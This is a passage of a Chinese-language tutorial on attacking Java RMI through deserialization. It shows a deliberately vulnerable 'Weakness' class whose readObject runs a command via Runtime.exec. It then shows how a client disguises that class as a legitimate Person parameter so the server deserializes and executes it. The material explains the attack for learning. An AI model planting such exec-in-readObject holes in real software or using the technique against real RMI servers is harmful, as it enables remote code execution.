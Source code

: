 此时一个正常的远程方法调用环境就搭建好了，按理说这种情况下是没有什么反序列化漏洞的，但是如果说服务端的项目中存在一些已知的存在问题的类，例如 Apache Common Collection。我们来模拟一下当服务端存在有存在反序列化问题的类时的情况。

```
package com.rmitest.weakclass;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

public class Weakness implements Serializable {
    private static final long serialVersionUID = 7439581476576889858L;
    private String param;

    public void setParam(String param) {
        this.param = param;
    }

    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        Runtime.getRuntime().exec(this.param);
    }
}
```

这里的 Weakness 类只是用来模拟一个在反序列化是会进行高危操作的一个类，比起用 Apache Common Collection 会现显得更加直观。

同样我们客户端如果想要利用这个类来对服务端进行反序列化攻击的话，那么客户端自然也需要存在这个类。所以拷贝一份到客户端，我们之前分析源码的时候看到了，服务端会反序列化客户端传来的需要远程方法处理的参数，这就是我们的攻击点，

```
this.unmarshalCustomCallData(var41);
//从 ConnectionInputStream里反序列化出远程调用的参数
//这里就是客户端可以用来攻击服务端的点，因为这里对远程调用方法的参数进行了反序列化，由此我们可以传递               恶意的反序列化数据进来
var9 = this.unmarshalParameters(var1, var42, var7);
```

我们根据项目的源码可以看到，这里传递的参数类型是一个 Person 类型，Person 这个类型本身是没有问题的，那我们要怎么实现让服务端反序列化 Person 类时能调用 Weakness 类呢？

其实很简单，我们只需要将客户端这边的 Weakness 类修改一下就可以了，我们让 Weakness 继承 PerSon 类就可以实现这个效果了，继承了 PerSon 之后我们的 Weakness 类就是 Person 类型的了，这样传递的时候 Weakness 类就可以被当作 Person 类来进行传递，表面上传递的是 Person 类型的参数，可实际上传递的参数确是 Weakness 类。

```
public class Weakness extends Person implements Serializable {
    private static final long serialVersionUID = 7439581476576889858L;
    private String param;

    public void setParam(String param) {
        this.param = param;
    }

    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        Runtime.getRuntime().exec(this.param);
    }
}
```
